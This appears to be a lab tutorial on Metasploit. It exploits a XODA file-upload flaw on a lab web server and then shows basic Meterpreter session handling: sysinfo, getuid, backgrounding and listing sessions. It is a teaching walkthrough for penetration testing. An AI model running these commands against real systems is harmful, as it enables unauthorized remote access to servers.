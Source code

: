 ```
curl http://192.3.56.3
```

XODA is currently running on the root of the web server.

```
search xoda
use exploit/unix/webapp/xoda_file_upload
show options
set TARGETURI /
run
```

```
meterpreter > sysinfo
```

`getuid` will tell us that what our permissions currently are.

```
meterpreter > getuid
```

The user that we currently have access to via the Meterpreter session is the www-data service account. And that make sense, because we exploited a web server, so we will consequently get the permissions associated with the service account responsible for managing the web server, which in the case of Linux is always going to www-data.

So we have an unprivileged session, or we do not have root privileges, which means we cannot do anything that requires root privileges.

Open up the documentation for Meterpreter.

```
meterpreter > help
```

In this case, we are primarily focused with how to manage our Meterpreter session, how to utilize it to navigate around the file system, migrate processes, etc.

Put this session in the background.

```
meterpreter > background
```

Or using the keyboard combination `Ctrl+z`.

We can also exit and kill this session by simply typing in `exit`, and that will kill this Meterpreter session.

```
meterpreter > exit
```

List out our sessions.

```
sessions
```
